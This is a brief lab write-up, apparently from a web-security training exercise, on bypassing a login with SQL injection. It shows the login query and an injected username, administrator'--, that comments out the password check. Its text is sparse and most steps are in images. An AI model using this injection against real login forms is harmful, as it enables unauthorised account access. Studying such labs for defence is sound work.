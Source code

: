 ## Lab Description :

![image](https://user-images.githubusercontent.com/67383098/234012289-0cea6a94-5790-4f3a-8e22-eb934fa06434.png)

## Solution :

![image](https://user-images.githubusercontent.com/67383098/234013321-4d3a357e-978e-43b0-88e8-1dbbaa940645.png)



![image](https://user-images.githubusercontent.com/67383098/234013904-4e8a9a7e-ff82-42aa-854a-3a8714d7fc23.png)

Query made -

```sql
SELECT * FROM users WHERE username = 'administrator' AND password = 'password'
```

To bypass the login, we need to comment out the password part in WHERE clause.

```sql
SELECT * FROM users WHERE username = 'administrator'--' AND password = 'bluecheese'
```

![image](https://user-images.githubusercontent.com/67383098/234018750-81c5cb58-08b7-4cc2-aa11-aba274a106cc.png)
